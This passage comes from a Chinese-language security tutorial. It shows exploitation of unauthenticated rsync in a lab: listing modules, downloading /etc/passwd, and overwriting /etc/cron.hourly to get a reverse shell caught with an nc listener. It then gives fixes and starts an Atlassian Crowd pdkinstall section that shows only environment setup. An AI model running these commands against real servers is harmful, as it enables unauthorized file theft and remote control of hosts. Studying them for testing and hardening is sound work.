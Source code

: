 ### 未授权访问测试

```bash
root@NC:/mnt/c/Users# rsync rsync://192.168.211.129:873
src             src path
```

### 利用rsync下载任意文件

```bash
root@NC:/mnt/c/Users# rsync rsync://192.168.211.129:873/src/etc/passwd ./
```

### 利用rsync反弹shell

创建文件nc

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090608-04d82e7e-c930-1.jpg)

把文件上传覆盖原来的计划任务文件，等待反弹成功

```bash
root@NC:/mnt/c/Users# rsync -av nc rsync://172.16.2.250:873/src/etc/cron.hourly
root@NC:/mnt/c/Users# nc -lnvp 9999
```

## 漏洞修复

1. 账户认证：正确配置认证用户名及密码。
2. 权限控制：使用合理的权限。
3. 网络访问控制：控制接入源ip。
4. 数据加密传输等

# Atlassian Crowd 未授权访问

Atlassian Crowd和Atlassian Crowd Data  Center都是澳大利亚Atlassian公司的产品。Atlassian  Crowd是一套基于Web的单点登录系统。该系统为多用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center是Crowd的集群部署版。Atlassian Crowd和Crowd Data  Center在其某些发行版本中错误地启用了pdkinstall开发插件，使其存在安全漏洞。攻击者利用该漏洞可在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件，执行任意代码/命令，从而获得服务器权限。

## 环境搭建

```bash
root@kali:~/桌面# wget https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.4.3.zip
root@kali:~/桌面# unzip atlassian-crowd-3.4.3.zip
root@kali:~/桌面# cd atlassian-crowd-3.4.3
root@kali:~/桌面/atlassian-crowd-3.4.3# vim crowd-webapp/WEB-INF/classes/crowd-init.properties
root@kali:~/桌面/atlassian-crowd-3.4.3# ./start_crowd.sh 
```

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090609-05216f76-c930-1.jpg)

